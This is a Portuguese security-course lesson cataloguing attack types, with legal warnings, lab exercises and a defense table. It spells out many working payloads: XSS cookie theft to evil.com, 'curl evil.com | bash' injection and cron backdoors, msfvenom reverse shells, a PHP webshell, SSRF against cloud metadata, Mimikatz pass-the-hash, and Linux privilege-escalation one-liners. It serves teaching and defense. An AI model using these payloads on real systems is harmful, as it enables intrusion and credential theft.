




# Tipos de Ataques

> [!quote] Conheça seu inimigo
> *Para defender sistemas, é essencial entender como os atacantes pensam e quais técnicas utilizam.*

> [!danger] ⚖️ Limite Legal (Art. 154-A do Código Penal)
> Invasão de dispositivo informático alheio **sem autorização** é crime, com pena de 1 a 4 anos de reclusão mais multa (agravada quando envolve sistemas públicos ou dados pessoais). O que diferencia pentest de crime é **a autorização por escrito**. Todo exercício prático desta aula ocorre exclusivamente em laboratórios legais: PortSwigger Web Security Academy, DVWA, OWASP Juice Shop na sua VM, TryHackMe e Hack The Box.

---

## 🗺️ Taxonomia Geral de Ataques



---

## 🔗 Cyber Kill Chain (Lockheed Martin)

O modelo Cyber Kill Chain descreve as 7 fases que um atacante percorre do reconhecimento até o impacto. Conhecer cada fase permite tanto executar um ataque estruturado em lab quanto detectar onde houve falha na defesa.



| Fase Kill Chain | Técnica Típica | Exemplo Concreto |
|---|---|---|
| Reconnaissance | OSINT, Shodan, nmap | Mapear portas abertas do alvo |
| Weaponization | Gerar payload com msfvenom | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=... -f elf` |
| Delivery | Phishing com link malicioso | E-mail com URL para exploit kit |
| Exploitation | SQLi, XSS, RCE via buffer overflow | `' OR 1=1--` em campo de login |
| Installation | Cron job malicioso, rootkit | `echo "* * * * * /tmp/.backdoor" | crontab -` |
| C2 | Conexão reversa TCP, DNS tunneling | Metasploit `handler` aguardando shell |
| Actions | Exfiltração de banco, cifragem com AES | Dump de `/etc/shadow`, criptografia de NAS |

---

## 🛡️ MITRE ATT&CK: Táticas e Técnicas (Enterprise v16/2025)

O MITRE ATT&CK é o catálogo mais completo de TTPs (Tactics, Techniques & Procedures) observados em ataques reais. A versão atual é a **v18.1 (dez/2025)**, cobrindo 14 táticas para Enterprise.



> [!tip] 🔎 Como usar o ATT&CK no lab
> Acesse attack.mitre.org, escolha uma técnica (ex.: T1190 "Exploit Public-Facing Application") e veja quais grupos APT a usam, quais ferramentas empregam e quais detecções existem. Red teams mapeiam cada ação do exercício a uma técnica ATT&CK para gerar relatório estruturado.

---

## 🎣 Ataques de Engenharia Social

> [!warning] O Fator Humano
> Muitos ataques exploram pessoas, não tecnologia. O elo mais fraco geralmente é o usuário.

### Phishing
Enganar usuários através de e-mails, sites ou mensagens falsas para revelar informações pessoais, senhas ou dados bancários.

**Como o atacante executa:**
1. Registra domínio visualmente similar ao alvo (ex: `paypa1.com`)
2. Clona a página legítima com HTTrack ou wget
3. Hospeda o clone e captura credenciais via script PHP simples
4. Envia e-mail com link via GoPhish ou servidor SMTP próprio
5. Coleta as credenciais no painel do GoPhish em tempo real

**Variantes modernas:**
- **Spear phishing:** alvo específico, com dados reais da vítima (nome, cargo, colega) obtidos via LinkedIn/OSINT
- **Smishing:** via SMS
- **Vishing:** ligação de voz com spoofing de caller ID
- **QRishing:** QR codes em locais físicos apontando para sites falsos

### Social Engineering
Manipulação psicológica para obter informações confidenciais. Pode envolver ligações telefônicas, presença física ou interações online.

**Técnicas de persuasão usadas pelo atacante:**
- **Autoridade:** fingir ser TI, gerente, banco
- **Urgência:** "sua conta será bloqueada em 2 horas"
- **Reciprocidade:** oferecer ajuda antes de pedir algo
- **Prova social:** "todos os outros já atualizaram"

### Typosquatting
Registro de domínios com erros de digitação comuns (ex: `gooogle.com`) para capturar usuários desatentos.

---

## 🔐 Ataques de Credenciais

> [!info] Quebrando Senhas
> Ataques focados em obter ou contornar mecanismos de autenticação.

### Força Bruta
Tentativas repetidas e sistemáticas de adivinhar credenciais, testando todas as combinações possíveis.

**Como o atacante executa:**
- **Dicionário:** wordlists como `rockyou.txt` com as 14 milhões de senhas mais vazadas
- **Regras:** Hashcat com regras para variações (`senha` → `S3nh@`, `Senha123!`)
- **Credential stuffing:** usar pares login:senha de vazamentos anteriores em outros serviços

**Ferramentas de lab:** `hydra`, `medusa`, `hashcat`, `john the ripper`

```bash
# Exemplo didático (lab local apenas)
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid credentials"
```

**Por que funciona:** reutilização de senhas (credential stuffing tem taxa de sucesso de 0,1% a 2%, que em vazamentos de 100 milhões de registros ainda equivale a centenas de milhares de contas comprometidas).

### Pass-the-Hash
Uso indevido de hashes de senha capturados para autenticação, sem precisar saber a senha original.

**Como o atacante executa:**
1. Obtém acesso inicial à máquina (qualquer usuário)
2. Extrai hashes NTLM da memória do processo `lsass.exe` via Mimikatz: `sekurlsa::logonpasswords`
3. Usa o hash diretamente para autenticar em outros sistemas da rede: `pth-winexe -U DOMINIO/Admin%[hash] //alvo cmd`
4. Sem precisar saber a senha em texto claro, obtém acesso lateral a toda a rede Windows

**ATT&CK:** T1550.002 "Use Alternate Authentication Material: Pass the Hash"

### Session Hijacking
Roubo e uso de tokens de sessão válidos para assumir a identidade de um usuário autenticado.

**Como o atacante executa:**
- Intercepta o cookie de sessão via XSS (`document.cookie`) ou sniffing em redes abertas
- Injeta o cookie no próprio navegador (DevTools → Application → Cookies)
- O servidor vê um cookie válido e aceita a sessão sem novo login

---

## 🌐 Ataques de Rede

> [!tip] Interceptação e Manipulação
> Ataques que exploram a comunicação entre sistemas.

### Man-in-the-Middle (MitM)
Interceptação de comunicações entre duas partes, permitindo espionagem ou modificação de dados em trânsito.

**Como o atacante executa (ARP Poisoning):**
1. Fica na mesma rede local da vítima
2. Envia pacotes ARP Reply falsos: diz à vítima que o MAC do gateway é o seu MAC; diz ao gateway que o MAC da vítima é o seu MAC
3. Todo tráfego passa pela máquina do atacante
4. Usa Wireshark ou mitmproxy para capturar/modificar o tráfego

```bash
# Lab local com arpspoof (apenas em rede própria de lab)
arpspoof -i eth0 -t [IP-vitima] [IP-gateway]
arpspoof -i eth0 -t [IP-gateway] [IP-vitima]
```

**ATT&CK:** T1557 "Adversary-in-the-Middle"

**Por que ainda funciona em 2026:** redes Wi-Fi sem WPA3, switches não configurados com Dynamic ARP Inspection (DAI), e protocolos legados (HTTP, FTP, Telnet) sem criptografia.

### Eavesdropping
Escuta passiva de comunicações privadas para coletar informações sensíveis.

### Spoofing
Falsificação de identidade, seja de endereços IP, MAC, e-mails ou outros identificadores.

**IP Spoofing:** usado principalmente em ataques DDoS de amplificação (o atacante envia requisições UDP com IP de origem falsificado apontando para a vítima; os servidores respondem para a vítima com tráfego amplificado em até 51x no DNS amplification).

### Pharming
Redirecionamento de tráfego legítimo para sites fraudulentos através de manipulação de DNS.

**Como o atacante executa:**
- **DNS Cache Poisoning:** injeta entradas falsas no cache de servidores DNS recursivos
- **Hosts file poisoning:** modifica `C:\Windows\System32\drivers\etc\hosts` na máquina da vítima via malware

---

## 💻 Ataques a Aplicações Web

> [!warning] Vulnerabilidades de Software
> Exploração de falhas em aplicações web e sistemas. As técnicas abaixo estão mapeadas no OWASP Top 10 2025 (A05: Injection, A01: Broken Access Control).

### 🔴 SQL Injection (SQLi)

**O que é:** o atacante insere código SQL em campos de entrada (login, busca, URL) que são concatenados diretamente na query do banco de dados, alterando a lógica da consulta.

**Como o atacante executa, passo a passo:**

**Passo 1: Detectar a vulnerabilidade**
```
# Injetar aspas simples e observar erro
username: '
# Erro de banco de dados visível = vulnerável
```

**Passo 2: Confirmar com payload booleano**
```
# True: retorna resultado normal
username: admin'--
# False: não retorna nada ou retorna diferente
username: admin' AND 1=2--
```

**Passo 3: UNION-based (exfiltrar dados)**
```sql
-- Primeiro, descobrir número de colunas:
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3-- (se der erro, há 2 colunas)

-- Depois, exfiltrar:
' UNION SELECT username, password FROM users--
```

**Passo 4: Blind SQL Injection (quando não há output visível)**
```sql
-- Boolean-based: inferir bit a bit
' AND SUBSTRING(password,1,1)='a'--
-- Time-based: usar delay como canal de saída
' AND SLEEP(5)--   (MySQL)
' AND 1=1; WAITFOR DELAY '0:0:5'--   (MSSQL)
```

**Passo 5: Automação com SQLmap**
```bash
sqlmap -u "http://alvo.com/produto?id=1" --dbs --batch
sqlmap -u "http://alvo.com/produto?id=1" -D loja -T usuarios --dump
```

**Impacto real:** dump completo do banco de dados (usuários, senhas, dados pessoais), bypass de autenticação (`' OR '1'='1`), em casos extremos execução de comandos no SO via `xp_cmdshell` (MSSQL).

**ATT&CK:** T1190 "Exploit Public-Facing Application"

> [!example] 🧪 Atividade 1: SQLi no PortSwigger Web Security Academy
> **Plataforma:** portswigger.net/web-security/sql-injection (gratuito, sem cadastro de cartão)
> **Lab:** "SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"
> **Passos:**
> 1. Acesse o lab e clique em "Access the lab"
> 2. Navegue até a categoria de produtos (ex: Gifts)
> 3. Na URL você verá: `?category=Gifts`
> 4. Modifique para: `?category=Gifts' OR 1=1--`
> 5. Observe que TODOS os produtos aparecem, incluindo os não publicados
> **Payload:** `' OR 1=1--`
> **Prova da exploração:** a página exibe produtos com `released=0` (ocultos) ao lado dos normais. O lab exibe o banner "Congratulations, you solved the lab!" quando bem-sucedido.
> **Segundo lab recomendado:** "SQL injection attack, querying the database type and version on MySQL and Microsoft" para praticar UNION-based.

### 🔴 Cross-Site Scripting (XSS)

**O que é:** o atacante injeta código JavaScript malicioso em uma página web. Quando outro usuário abre essa página, o script executa no contexto do navegador da vítima, podendo roubar cookies, redirecionar para phishing ou capturar teclas.

**Três variantes do ponto de vista ofensivo:**

| Tipo | Como persiste | Alvo | Impacto |
|---|---|---|---|
| Reflected | Não persiste, URL | Usuário específico | Roubo de sessão via link |
| Stored | Persiste no banco | Todos os visitantes | Worm, defacement, mass cookie theft |
| DOM-based | Só no cliente JS | Usuário específico | Bypass de CSP server-side |

**Como o atacante executa (Stored XSS):**
1. Encontra campo que aceita entrada e exibe para outros usuários (comentário, perfil, fórum)
2. Injeta: `<script>document.location='https://evil.com/steal?c='+document.cookie</script>`
3. Quando qualquer usuário (inclusive admin) visita a página, o cookie é enviado ao servidor do atacante
4. O atacante usa o cookie capturado para sequestrar a sessão do admin

**Bypass de filtros básicos (técnica ofensiva):**
```html
<!-- Quando <script> é bloqueado -->

<svg onload="fetch('https://evil.com?c='+btoa(document.cookie))">
<body onpageshow="javascript:alert(1)">
<!-- Encoding para bypass -->
<script>eval(atob('YWxlcnQoMSk='))</script>
```

**Payload de roubo de cookie completo:**
```javascript
new Image().src='https://evil.com/steal?c='+encodeURIComponent(document.cookie)
```

**ATT&CK:** T1059.007 "Command and Scripting Interpreter: JavaScript"

> [!example] 🧪 Atividade 2: XSS no PortSwigger Web Security Academy
> **Plataforma:** portswigger.net/web-security/cross-site-scripting (gratuito)
> **Lab:** "Reflected XSS into HTML context with nothing encoded"
> **Passos:**
> 1. Acesse o lab e use a barra de busca
> 2. Digite qualquer termo e observe que ele aparece refletido na página
> 3. No campo de busca, insira: `<script>alert(1)</script>`
> 4. Envie a busca
> **Payload:** `<script>alert(1)</script>`
> **Prova da exploração:** o navegador exibe um pop-up com "1". O banner "Congratulations, you solved the lab!" confirma o sucesso.
> **Próximo nível:** lab "Stored XSS into HTML context with nothing encoded" para praticar o tipo mais perigoso (afeta todos os visitantes).

### 🔴 CSRF (Cross-Site Request Forgery)

**O que é:** o atacante engana o navegador autenticado da vítima para enviar requisições não intencionais a um site onde ela tem sessão ativa. O servidor não consegue distinguir a requisição legítima da forjada porque ambas carregam o cookie válido.

**Como o atacante executa:**
1. Identifica uma ação que muda estado no servidor (transferência, troca de e-mail, mudança de senha) e é feita via POST/GET sem token CSRF
2. Cria uma página HTML maliciosa:
```html
<html>
  <body onload="document.getElementById('f').submit()">
    <form id="f" action="https://banco.com/transferir" method="POST">
      <input name="valor" value="5000">
      <input name="destino" value="conta-do-atacante">
    </form>
  </body>
</html>
```
3. Convence a vítima (já logada no banco) a visitar essa página
4. O navegador da vítima envia automaticamente a requisição com o cookie de sessão válido
5. O banco processa a transferência como se fosse legítima

**Diferença XSS vs CSRF:** XSS executa código no contexto do site alvo (tem acesso a cookies, DOM, localStorage). CSRF apenas forja uma requisição autenticada, sem acesso ao conteúdo da resposta.

**ATT&CK:** T1185 "Browser Session Hijacking"

### 🔴 SSRF (Server-Side Request Forgery)

**O que é:** o atacante faz o servidor da aplicação realizar requisições HTTP para destinos arbitrários, incluindo serviços internos inacessíveis externamente e o serviço de metadados de instâncias cloud.

**Como o atacante executa:**

**Cenário 1: Acesso a serviços internos**
```
# Aplicação busca URL fornecida pelo usuário:
POST /fetch-url
url=http://interno:8080/admin/users

# O servidor (com acesso à rede interna) faz a requisição e retorna o resultado
```

**Cenário 2: Roubo de credenciais AWS via metadata service (campanha real de 2025)**
```
# URL alvo do SSRF em instância EC2:
url=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Resposta: nome da role IAM
# Segunda requisição:
url=http://169.254.169.254/latest/meta-data/iam/security-credentials/MinhaRole

# Resposta: AccessKeyId, SecretAccessKey, Token temporário
# Com essas credenciais o atacante acessa S3, EC2, RDS de toda a conta AWS
```

**Protocolo além de HTTP:** `file:///etc/passwd`, `dict://`, `gopher://` para explorar outros serviços internos.

**ATT&CK:** T1552.005 "Unsecured Credentials: Cloud Instance Metadata API"

**Impacto real:** em 2025, campanhas ativas de SSRF miraram instâncias EC2 com SSRF para exfiltrar credenciais IAM temporárias e obter acesso completo a contas AWS de empresas.

### 🔴 RCE (Remote Code Execution)

**O que é:** o atacante consegue executar comandos arbitrários no sistema operacional do servidor, frequentemente como consequência de outros ataques (SQLi avançado, deserialização insegura, template injection, upload de arquivo malicioso).

**Vetores comuns de RCE:**

**1. Command Injection (derivado de input não sanitizado)**
```python
# Código vulnerável (Python)
import os
filename = request.args.get('file')
os.system(f"convert {filename} output.pdf")

# Payload do atacante:
file=foto.jpg; curl https://evil.com/shell.sh | bash
```

**2. File Upload + Webshell**
```php
# Fazer upload de arquivo PHP como "foto.jpg"
# Se o servidor não valida content-type:
<?php system($_GET['cmd']); ?>

# Acessar via URL: /uploads/foto.jpg.php?cmd=id
```

**3. Server-Side Template Injection (SSTI)**
```
# Em templates Jinja2 (Python/Flask):
{{7*7}}       → retorna 49 (confirma SSTI)
{{config.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
```

**ATT&CK:** T1190 + T1059 "Command and Scripting Interpreter"

> [!example] 🧪 Atividade 3: Exploração no OWASP Juice Shop
> **Plataforma:** demo.owasp-juice.shop (online) ou `docker run -p 3000:3000 bkimminich/juice-shop` na sua VM
> **Desafio:** "Login Admin" (1 estrela, nível iniciante)
> **Passos:**
> 1. Acesse a tela de login do Juice Shop
> 2. No campo de e-mail, insira: `' OR 1=1--`
> 3. No campo de senha, insira qualquer coisa (ex: `abc`)
> 4. Clique em Login
> **Payload:** `' OR 1=1--` (SQLi que faz a query retornar o primeiro usuário do banco, que é o admin)
> **Prova da exploração:** você é logado como `admin@juice-sh.op`. O painel de "Score Board" registra o desafio como resolvido com o troféu aceso.
> **Segundo desafio recomendado:** "DOM XSS" no campo de busca com payload `<iframe src="javascript:alert('xss')">` para ver XSS DOM-based em ação.

### Zero Day
Exploração de vulnerabilidades desconhecidas pelos desenvolvedores, para as quais não existe correção disponível.

**Como o atacante encontra e usa:**
- Fuzzing automatizado com AFL++, libFuzzer para descobrir crashes
- Análise de binários com Ghidra, IDA Pro para encontrar falhas em código fechado
- Venda no mercado de 0days: preços de \$50.000 a \$2,5 milhões dependendo do alvo (iOS remote jailbreak chegou a US\$ 2,5M na Zerodium em 2024)
- Grupos APT nacionais mantêm stockpile de 0days para uso estratégico

---

## 🦠 Ataques com Malware

> [!danger] Software Malicioso
> Programas criados para causar danos, roubar dados ou obter acesso não autorizado.

### Malware (Geral)
Categoria ampla que inclui vírus, worms, trojans, spyware e outros softwares maliciosos.

**Classificação pelo mecanismo de propagação:**

| Tipo | Propagação | Ação Principal |
|---|---|---|
| Vírus | Infecta arquivos legítimos | Executa ao abrir o arquivo hospedeiro |
| Worm | Auto-propaga pela rede (sem user action) | EternalBlue (MS17-010) varreu a internet em horas |
| Trojan | Disfarçado de software legítimo | RAT (Remote Access Trojan), keylogger |
| Spyware | Instalação silenciosa | Captura teclas, telas, microfone |
| Rootkit | Modifica o SO para se esconder | Hookeia chamadas de sistema, invisível ao `ls` |
| Botnet | C2 centralizado ou P2P | DDoS, spam, mineração de cripto |

### 🔴 Ransomware

**O que é e como o atacante opera (Cyber Kill Chain completo, 2025-2026):**

O ransomware moderno é operado por grupos profissionais com modelo RaaS (Ransomware-as-a-Service): afiliados compram acesso à plataforma, executam os ataques e dividem o resgate (típico: 70/30 para o afiliado).

**Fase 1: Acesso Inicial (TA0001)**
- Phishing com anexo malicioso (macros Office, LNK, ISO)
- Exploração de VPN/RDP expostos (vulnerabilidades em Fortinet, Citrix, Ivanti foram vetores tops em 2025)
- Compra de acesso de Initial Access Brokers (IABs) no dark web

**Fase 2: Reconhecimento e Movimento Lateral (TA0007 + TA0008)**
- `net view`, `arp -a`, BloodHound para mapear o AD
- Pass-the-Hash, PtT (Pass-the-Ticket Kerberos), Golden Ticket
- Movimento para Domain Controller é o objetivo principal

**Fase 3: Evasão e Persistência (TA0005 + TA0003)**
- Em 2026, "EDR killers" (drivers maliciosos assinados) se tornaram padrão nos ataques
- Desabilitar Windows Defender, desligar serviços de backup (VSS Shadow Copies)
- `vssadmin delete shadows /all /quiet`

**Fase 4: Exfiltração (TA0010) "Double Extortion"**
- Exfiltrar dados ANTES de criptografar
- Usar Rclone, MEGAsync, FTP para enviar arquivos ao C2
- Ameaça dupla: pagar para decriptar E pagar para não publicar os dados

**Fase 5: Impacto (TA0040)**
- Implantar o payload de cifragem (AES-256 para arquivos, RSA-2048 para proteger a chave AES)
- Apagar backups locais, shadow copies
- Deixar nota de resgate em cada pasta

**Dados de 2026:** ataques explorando aplicações públicas cresceram 44% em relação a 2025. Número de grupos ativos de ransomware cresceu 49%. Resgates médios ultrapassaram US\$ 1,5M para alvos corporativos.



### Backdoor
Acesso oculto deixado em um sistema para permitir entrada futura sem autenticação normal.

**Como o atacante instala:**
- **Webshell:** arquivo PHP/ASPX oculto em servidor web
- **Cron job malicioso:** `*/5 * * * * curl evil.com/payload.sh | bash`
- **Modificação de binário legítimo:** substituir `sshd` por versão backdoored
- **Supply Chain:** embutir backdoor em dependência open source (caso XZ Utils 2024: backdoor no liblzma com 3 estágios de ofuscação, CVSS 10.0, comprometeu openssh em milhões de sistemas)

---

## 🚫 Ataques de Negação de Serviço

> [!info] Indisponibilidade
> Ataques que visam tornar sistemas ou serviços inacessíveis.

### DoS (Denial of Service)
Sobrecarga de um sistema individual com requisições ou tráfego para torná-lo inacessível.

**Tipos por camada OSI:**

| Camada | Tipo | Exemplo |
|---|---|---|
| L3/L4 (Rede) | Volumétrico | ICMP flood, UDP flood |
| L4 (Transporte) | SYN flood | Forjar pacotes SYN sem completar handshake TCP |
| L7 (Aplicação) | HTTP flood, Slowloris | Requisições legítimas em volume ou conexões lentas |

**Amplificação (técnica ofensiva):** o atacante envia pequenas requisições com IP de origem falsificado (spoofed) da vítima para servidores que respondem com muito mais dados. DNS amplification: fator 51x. NTP amplification: fator 556x. SSDP: fator 30x. Resultado: com 1 Gbps de capacidade de envio, o atacante gera até 556 Gbps de tráfego na vítima.

### DDoS (Distributed DoS)
Ataque DoS realizado a partir de múltiplas fontes simultaneamente, geralmente usando botnets.

**Como o atacante monta uma botnet:**
1. Comprometer milhares de dispositivos IoT com credenciais padrão (Mirai-style: `admin/admin`, `root/1234`)
2. Instalar agente que aguarda comandos do C2
3. No ataque, enviar comando para toda a botnet mirar o alvo simultaneamente

**ATT&CK:** T1498 "Network Denial of Service"

---

## 🔼 Escalada de Privilégio

> [!danger] 🔑 De usuário comum a root/SYSTEM
> Uma das fases mais críticas do kill chain: o atacante raramente obtém acesso root direto. Primeiro obtém acesso com baixo privilégio, depois escala.

**ATT&CK:** TA0004 "Privilege Escalation" (dezenas de técnicas documentadas)

### Linux: Vetores Principais

**1. SUID Binaries**
```bash
# Encontrar binários com SUID (executam como root, independente do usuário)
find / -perm -4000 -type f -ls 2>/dev/null

# Se /usr/bin/find tem SUID:
/usr/bin/find . -exec /bin/sh -p \; -quit
# -p = preservar UID efetivo (root)

# GTFOBins (gtfobins.github.io): lista de binários Unix que permitem escalar
# python, vim, awk, nmap, tar, bash com SUID = root imediato
```

**2. PATH Hijacking**
```bash
# Script root que chama 'ls' sem caminho absoluto:
# /usr/local/sbin/check.sh: ls /home/

# Atacante cria 'ls' malicioso em diretório próprio:
echo "/bin/bash" > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH

# Executa o script root (via sudo, cron, SUID):
sudo /usr/local/sbin/check.sh
# '/ls' encontrado em /tmp primeiro → executa /bin/bash como root
```

**3. Sudo Misconfiguration**
```bash
# Ver o que pode rodar como sudo sem senha:
sudo -l
# Se aparecer: (ALL) NOPASSWD: /usr/bin/vim
vim -c ':!/bin/sh'   # shell root imediata
```

**4. Cron Jobs com paths inseguros**
```bash
# Verificar cron jobs do root:
cat /etc/crontab
ls -la /etc/cron.*

# Se o script chamado é editável pelo atacante ou usa path sem /usr/bin absoluto:
echo "chmod +s /bin/bash" >> /script-do-cron.sh
# Aguardar cron executar como root; depois: bash -p  → root shell
```

### Windows: Vetores Principais

**1. DLL Hijacking**
- Aplicações buscam DLLs em ordem: diretório do app, System32, PATH
- Se o diretório do app é editável pelo atacante, substituir ou criar a DLL ausente com código malicioso
- Quando a aplicação (rodando como SYSTEM/admin) carrega a DLL, executa o payload

**2. Token Impersonation**
- Se o serviço tem SeImpersonatePrivilege (comum em serviços IIS, SQL Server), usar JuicyPotato/PrintSpoofer para obter token SYSTEM
- `whoami /priv` para verificar privilégios

**3. AlwaysInstallElevated**
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# Se = 1: qualquer .msi instalado com privilégios SYSTEM
msfvenom -p windows/x64/shell_reverse_tcp LHOST=... -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

---

## ⛓️ Supply Chain Attacks

> [!danger] 🏭 Comprometer a cadeia de fornecimento de software
> Em vez de atacar o alvo diretamente (que pode ter boa defesa), o atacante compromete um fornecedor, ferramenta ou dependência de confiança.

**Por que é devastador:** uma única compromissão pode atingir dezenas de milhares de organizações simultaneamente, pois todas confiam no mesmo componente.

**Casos históricos e técnicas:**

| Caso | Ano | Técnica | Impacto |
|---|---|---|---|
| SolarWinds Orion | 2020 | Build pipeline comprometido: DLL backdoor inserida no processo de compilação | 18.000 organizações, incluso agências federais US |
| Log4Shell (Log4j) | 2021 | Vulnerabilidade em biblioteca onipresente: JNDI lookup → RCE | Estimado 93% das clouds corporativas afetadas |
| XZ Utils (liblzma) | 2024 | Social engineering de 2 anos sobre mantenedor burnout: backdoor 3 estágios em compressor | Comprometeu openssh em distros Linux; CVSS 10.0 |
| Polyfill.io | 2024 | Domínio de biblioteca JS amplamente usada vendido; novo dono inseriu redirect malicioso | +100.000 sites afetados |

**Como o atacante opera (XZ Utils como estudo de caso):**
1. Cria identidade falsa (JiaT75), contribui com patches úteis por 2 anos, constrói reputação
2. Aborda mantenedor esgotado com engenharia social, oferece "ajuda com manutenção"
3. Torna-se co-mantenedor
4. Insere backdoor com 3 estágios de ofuscação: Stage-A (bash script), Stage-B (carving de bytes em test files), Stage-C (binary final via RC4 + decompressão)
5. Backdoor bypassa autenticação SSH quando carregado via systemd em distros com liblzma linkado ao openssh

**ATT&CK:** T1195 "Supply Chain Compromise"

**OWASP Top 10 2025:** categoria A03:2025 "Software Supply Chain Failures" é nova, refletindo a explosão desses ataques. Terceiros são responsáveis por 30% de todos os vazamentos de dados.

---

## 📊 Tabela Mestre: Ataque × Como o Atacante Faz × Defesa

| Ataque | Como o Atacante Executa | Defesa Principal |
|---|---|---|
| Phishing | Clone de site + GoPhish + domínio similar | MFA, treinamento, DMARC/DKIM/SPF |
| Força Bruta | Hydra + rockyou.txt / credential stuffing | Rate limiting, lockout, MFA, senhas longas |
| Pass-the-Hash | Mimikatz `sekurlsa::logonpasswords` | Credential Guard, LSA Protection, tiering de admin |
| MitM (ARP) | arpspoof nas 2 direções na LAN | Dynamic ARP Inspection (DAI) em switches, HTTPS, MTA-STS |
| SQL Injection | UNION-based, blind, SQLmap | Prepared statements, ORM, WAF, princípio do menor privilégio no BD |
| XSS Stored | `<script>fetch(evil+document.cookie)</script>` em input persistido | CSP, output encoding, HttpOnly cookies |
| CSRF | Página HTML com form auto-submit | Tokens CSRF, SameSite cookies, verificação de Origin |
| SSRF | `url=http://169.254.169.254/...` para metadata AWS | IMDSv2, allowlist de destinos, segmentação de rede |
| RCE | Command injection, SSTI, webshell upload | Sanitização rigorosa, não executar input do usuário, upload validation |
| Ransomware | Kill chain completo: phish → lateral → DC → cifra | Backup offsite imutável, EDR, segmentação, patch, MFA em RDP/VPN |
| Priv Esc (Linux) | SUID GTFOBins, PATH hijack, sudo -l | Auditar SUID com `find`, PATH absoluto em scripts root |
| Supply Chain | Comprometer dep/build/mantenedor | SCA (SBOM), lockfiles, signature verification, SLSA framework |
| DDoS | Botnet + amplificação DNS/NTP | Anycast, scrubbing center, rate limiting, BCP38 |
| Session Hijacking | Captura de cookie via XSS ou sniffing | HttpOnly, Secure, SameSite=Strict; HTTPS everywhere |

---

## 🔢 OWASP Top 10 2025 (Web)

O OWASP Top 10 2025 analisou **589 CWEs** (contra ~400 na versão 2021) e reflete a crescente complexidade dos sistemas modernos.

| Posição | Categoria | O Que Engloba |
|---|---|---|
| A01:2025 | Broken Access Control | Escalonamento horizontal/vertical, IDOR, SSRF (incorporado aqui) |
| A02:2025 | Security Misconfiguration | Defaults inseguros, headers ausentes, cloud misconfiguration |
